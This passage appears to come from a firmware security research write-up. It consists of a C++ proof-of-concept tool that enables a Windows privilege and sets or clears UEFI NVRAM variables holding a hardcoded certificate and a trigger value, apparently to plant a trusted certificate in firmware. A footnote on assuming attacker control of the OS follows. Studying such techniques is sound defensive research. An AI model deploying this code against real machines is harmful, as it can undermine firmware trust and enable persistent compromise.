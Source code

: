 ```cpp
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;
    
    OpenProcessToken(GetCurrentProcess(), 
         TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);
    LookupPrivilegeValue(NULL, 
         SE_SYSTEM_ENVIRONMENT_NAME, &tkp.Privileges[0].Luid);
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
}

int main(int argc, char *argv[]) 
{
    if (argc != 2) {
        printf("Usage: sfcd set   - set the hardcoded certificate "
               "and trigger NVRAM variables\n"
               "       sfcd clear - clear the currently set certificate "
               "and trigger NVRAM variables\n\n");

        return EXIT_SUCCESS;
    }

    obtain_privilege();
    
    // Set variables
    if (memcmp(argv[1], "set", 4) == 0) {
        if (SetFirmwareEnvironmentVariableA(cert_var, guid, esl, esl_len)) {
            printf("%s had been set\n", cert_var);
        }
        else {
            printf("Failed to set %s, code %u\n", cert_var, 
                 (unsigned)GetLastError());
            return EXIT_FAILURE;
        }

        if (SetFirmwareEnvironmentVariableA(trigger_var, guid, 
               &trigger, sizeof(trigger))) {
            printf("%s had been set\n", trigger_var);
        }
        else {
            printf("Failed to set %s, code %u\n", trigger_var, 
                 (unsigned)GetLastError());
            return EXIT_FAILURE;
        }
    }
    // Clear variables
    else if (memcmp(argv[1], "clear", 6) == 0) {
        if (SetFirmwareEnvironmentVariableA(cert_var, guid, esl, 0)) {
            printf("%s had been cleared\n", cert_var);
        }
        else {
            printf("Failed to clear %s: %u\n", cert_var, 
                 (unsigned)GetLastError());
            return EXIT_FAILURE;
        }

        if (SetFirmwareEnvironmentVariableA(trigger_var, guid, &trigger, 0)) {
            printf("%s had been cleared\n", trigger_var);
        }
        else {
            printf("Failed to clear %s: %u\n", trigger_var, 
```

[^1]: it is useful to assume the OS to be under full attacker control for any kind of firmware security research, with LPEs being dirt-cheap and users still willing to run unknown software downloaded directly from the Web that barrier of entry might as well not exist.